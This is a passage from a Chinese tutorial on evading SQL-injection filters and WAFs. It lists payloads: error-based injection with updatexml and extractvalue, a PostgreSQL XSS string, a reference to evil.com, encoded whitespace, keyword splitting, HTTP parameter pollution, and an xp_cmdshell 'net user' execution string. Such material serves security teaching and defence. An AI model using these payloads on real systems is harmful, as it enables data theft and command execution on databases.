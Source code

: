 上述这几个示例用于说明有时候当某个函数不能使用时，还可以找到其他的函数替代其实现，置于select、uinon、where等关键字被限制如何处理将在后面filter部分讨论

2.符号

and和or有可能不能使用，或者可以试下&&和||能不能用；还有=不能使用的情况，可以考虑尝试<、>，因为如果不小于又不大于，那边是等于了

在看一下用得多的空格，可以使用如下符号表示其作用：%20 %09 %0a %0b %0c %0d %a0 /**/

3.生僻函数

MySQL/PostgreSQL支持XML函数：Select UpdateXML(‘ ’,’/script/@x/’,’src=//evil.com’);

?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))

SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql

?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

MySQL、PostgreSQL、Oracle它们都有许多自己的函数，基于黑名单的filter要想涵盖这么多东西从实际上来说不太可能，而且代价太大，看来黑名单技术到一定程度便遇到了限制

**f) 特殊符号**

这里我把非字母数字的字符都规在了特殊符号一类，特殊符号有特殊的含义和用法，涉及信息量比前面提到的几种都要多

先看下乌云drops上“waf的绕过技巧”一文使用的几个例子：

1.使用反引号`，例如select`version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用

2.神奇的"-+."，select+id-1+1.from users; “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤

3.@符号，select@^1.from users; @用于变量定义如**@_var_name_**，一个@表示用户定义，@@表示系统变量

4.Mysql function() as xxx 也可不用as和空格　　 select-count(id)test from users;  //绕过空格限制

可见，使用这些字符的确是能做很多事，也证实了那句老话，只有想不到，没有做不到

本人搜罗了部分可能发挥大作用的字符(未包括'、*、/等在内，考虑到前面已经出现较多次了)：`、~、!、@、%、()、[]、.、-、+ 、|、%00

举例：

关键字拆分：‘se’+’lec’+’t’

%S%E%L%E%C%T 1

1.aspx?id=1;EXEC(‘ma’+'ster..x’+'p_cm’+'dsh’+'ell ”net user”’)

!和()：' or --+2=- -!!!'2

id=1+(UnI)(oN)+(SeL)(EcT)　//另 Access中,”[]”用于表和列,”()”用于数值也可以做分隔

本节最后在给出一些和这些字符多少有点关系的操作符供参考：

>>, <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN

使用这些"特殊符号"实现绕过是一件很细微的事情，一方面各家数据库对有效符号的处理是不一样的，另一方面你得充分了解这些符号的特性和使用方法才能作为绕过手段

**g) HTTP参数控制**

这里HTTP参数控制除了对查询语句的参数进行篡改，还包括HTTP方法、HTTP头的控制

1.HPP(HTTP Parameter Polution)

举例：/?id=1;select+1,2,3+from+users+where+id=1—
